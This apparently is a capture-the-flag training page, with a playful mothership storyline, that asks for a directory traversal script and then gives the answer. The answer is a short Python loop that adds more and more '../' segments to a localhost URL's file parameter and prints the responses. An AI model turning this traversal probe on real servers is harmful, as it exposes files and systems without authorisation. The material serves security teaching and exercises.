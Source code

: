 # 📂 Getting Access - L08 C03
Ok, now things are getting serious. We have agents aboard a probe and they've used a key to gain physical access to the mothership. Now inside, they've been able to connect to a page on the motherships main server which controls all the human technology they've been using. We think it's vulnerable to directory traversal, and we want to use that vulnerability to gain root access.

The page is at http://127.0.0.1:8082/humantechconfig?file=human.conf, write a script which will attempt various levels of directory traversal to give you access to the root directory.

**Tip:** Get to the root directory and the HTTP response will contain the flag.

> 💡 Hint: The directory traversal is in the form: 127.0.0.1:8082/humantechconfig?file=../human.conf

## Answer

```python
#
# There is a directory traversal vulnerability in the
# following page http://127.0.0.1:8082/humantechconfig?file=human.conf
# Write a script which will attempt various levels of directory
# traversal to find the right amount that will give access
# to the root directory. Inside will be a human.conf with the flag.
#
# Note: The script can timeout. If this occurs try narrowing
# down your search

import urllib.request

trav = '../'
file = 'human.conf'
website = 'http://127.0.0.1:8082/humantechconfig?file='

for i in range(1, 11):
  payload = trav * i + file
  payload = website + payload
  
  resp = urllib.request.urlopen(payload)
  print(resp.read())
```
